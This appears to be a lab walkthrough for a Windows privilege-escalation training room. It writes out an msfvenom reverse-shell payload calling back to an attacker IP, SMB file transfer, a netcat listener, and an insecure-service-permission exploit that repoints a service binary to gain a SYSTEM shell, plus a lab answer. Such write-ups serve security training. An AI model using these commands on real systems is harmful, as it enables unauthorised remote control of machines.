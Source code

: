 # Task2:

Creating reverse shell exe:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfering the exe file to trgt windows using inpacket to set up **smbserver** on kali linux, although there are many ways to do this.

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py <username> <share path>
```

On windows,
```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Testing the rev shell on kali:
```
sudo nc -nvlp 53
```

Running the rev shell on windows:
```
C:\PrivEsc\reverse.exe
```

# Task3: Service Exploits - Insecure Service Permissions

Using accesschk.exe to check **"user"** account permission on the "daclsvc" service:
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

`/accepteula` : Telling the program that you accept the EULA, and not to display a popup
u : Suppress error
w : Show only objs that have write access
c : Windows service name
q : Omit Banner
v : Verbose
link: [sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
acesscheck Winapi link: [msdocs](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-accesscheck)

```
C:\PrivEsc> C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
 C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

**"user"** account has the permission to change the service config ***(SERVICE_CHANGE_CONFIG)***.

Query the service and note that it runs with ***SYSTEM privileges (SERVICE_START_NAME)***:

```
sc qc daclsvc
```

This command doesn't work in Win10 but in win server.
link: [msdocs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc742055(v=ws.11)

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```
net start daclsvc
```

1. What is the original BINARY_PATH_NAME of the daclsvc service?
> C:\Program Files\DACL Service\daclservice.exe

Using:
```
sc qc daclsvc
```

